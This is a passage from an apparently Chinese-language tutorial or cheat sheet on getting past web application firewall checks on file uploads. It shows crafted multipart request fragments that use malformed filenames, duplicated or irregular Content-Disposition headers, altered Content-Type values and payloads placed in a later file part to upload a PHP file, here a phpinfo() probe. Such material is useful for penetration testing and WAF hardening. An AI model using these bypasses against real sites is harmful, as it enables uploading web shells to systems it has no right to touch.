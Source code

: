     Content-Disposition: form-data; name="file", filename=abc.php’;aaaaaaaaaaaaaaaa 
    
    Content-Type: application/octet-stream；
    
    
    <?php phpinfo(); ?>
    -------------WebkitFormBoundaryFADasdasdasDdasd
    
        

* * *

##### 文件类型绕过/Header 头类型

修改文件类型绕过/Header头的Content-Type，多次尝试:

    Content-Type：application/x-www-form-urlencoded；
    
    Content-Type：multipart/form-data； 
    
    Content-Type：application/octet-stream；
    
        

##### 未解析所有文件

multipart协议中，一个POST请求可以同时上传多个文件。如图，许多WAF只检查第一个上传文件，没有检查上传的所有文件，而实际后端容器会解析所有上传的文件名，攻击者只需把paylaod放在后面的文件PART，即可绕过-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200921215009791.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://blog.csdn.net/qq_32393893/article/details/81625047
    
        

* * *

##### 不规则Content-Disposition文件名覆盖

    -------------WebkitFormBoundaryFADasdasdasDdasd
    
    content-Dispositiona：form-data; name="file"; filename='abc.jpg' 
    
    Content-Disposition：form-data; name="file"; filename=abc.php'
    
    Content-Type: application/octet-stream; 
    
    
    <?php phpinfo(); ?>
    -------------WebkitFormBoundaryFADasdasdasDdasd
    
        

* * *

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200921220157809.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://weibo.com/ttarticle/p/show?id=2309404007261092631700
    
        

文章讲解了Content-Disposition各种不规则绕过方法

* * *

##### boundary 绕过
